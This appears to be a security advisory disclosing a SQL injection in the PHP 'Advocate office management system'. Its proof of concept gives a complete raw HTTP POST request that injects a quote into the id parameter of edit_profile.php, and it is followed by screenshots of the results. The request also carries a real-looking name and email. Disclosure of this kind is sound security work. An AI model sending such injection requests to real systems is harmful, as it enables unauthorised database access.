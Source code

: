 1.Advocate office management system SQL Injection

2.Description
The system Client doesn't properly sanitise POST parameter, which result into a SQL Injection.


3.Vendor 
Homepage https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html


4.Author 
will@webray.com.cn inc


5.Proof of Concept
(1)Request package details
POST /kortex_lite/kortex_lite/control/edit_profile.php?id=' HTTP/1.1

Host: 192.168.67.19

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------138672589812532910882517597860

Content-Length: 697

Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e

Upgrade-Insecure-Requests: 1


-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="id"


1

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="name"


Mayuri K

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="username"


mayuri.infospace@gmail.com

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="image"; filename="2.png"

Content-Type: image/png


123

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="edit"




-----------------------------138672589812532910882517597860--


(2)Verification results
![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system2.png)

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system.png)

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system3.png)

